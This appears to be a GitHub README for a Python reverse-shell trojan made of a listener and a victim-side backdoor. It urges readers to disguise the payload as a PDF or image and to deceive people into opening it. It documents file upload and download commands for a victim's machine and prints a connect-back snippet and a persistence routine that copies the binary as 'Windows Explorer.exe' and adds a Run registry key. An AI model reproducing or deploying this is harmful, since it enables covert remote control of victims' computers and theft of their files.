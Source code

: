 # Python Reverse Shell For Trojan
Runs a reverse shell via TCP with capacity of download and upload any file from your machine to the victim's machine and vice versa. You can hide it in a simple file (like a pdf), and using reverse engineering, you can to get the person you send file to run the program believing that this is a normal pdf (or another) file.
The tool consists of two files: listener.py and reverse_shell.py.
## listener.py
Runs a TCP server in the attacker's machine and goes into listening mode, waiting for the connection from victim's machine.
### Usage:
`python3 listener.py [OPTIONS]`
### Flags:
- **-i, --ip:** Ip address to listening
- **-p, --p:** Port number to listening
- **-h, --help:** Show list of commands

### Commands:
Once the victim has connected to our server, we can run the commands from his machine like a normal reverse shell, but also, this tool has 4 own commands:
- **exit, Exit:** Finishes client-server connection.
- **down:** Download any file from client's side to our machine. The structure has to be down + [dest_path] + [file_name]. 
Example:
`$down /home/user/Documents/ file.txt`
Where [dest_path] is the route where we want to download the file **(don't add a file name here, just the path)**, and [file_name] is the name of the file in the victim's machine. The tool will use [file_name] to name the downloaded file.
- **up:** Up any file from our machine to the victim's machine. The structure has to be up + [dest_path] + [file_name].
Example:
`$up /home/victim_folder/Desktop/folder/ /home/our_user/file.txt`

## reverse_shell.py
Connects via TCP to listener server.  It runs once a person opens it; you can hide it in a pdf file, png, jpg, etc. Use your social engineering skills to deceive people to open it ;).
### Configuration
At the end of the code, set the ip and port where to establish the connection:
```python
try: 
    backdoor = Backdoor('<ip>', <port>) # CHANGE HOST AND PORT HERE!
    backdoor.run()
except:
    sys.exit()
```
The ip and port have to be the same as you set in 'listener.py', because this is where connection will be established.
### Persistent mode
```python
def becomePersistent(self):
        fileLocation = os.environ['appdata'] + '\\Windows Explorer.exe'
        if not os.path.exists(fileLocation):
            shutil.copyfile(sys.executable, fileLocation)
            subprocess.call('reg add HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v update /t REG_SZ /d "' + fileLocation + '"', shell=True)
```



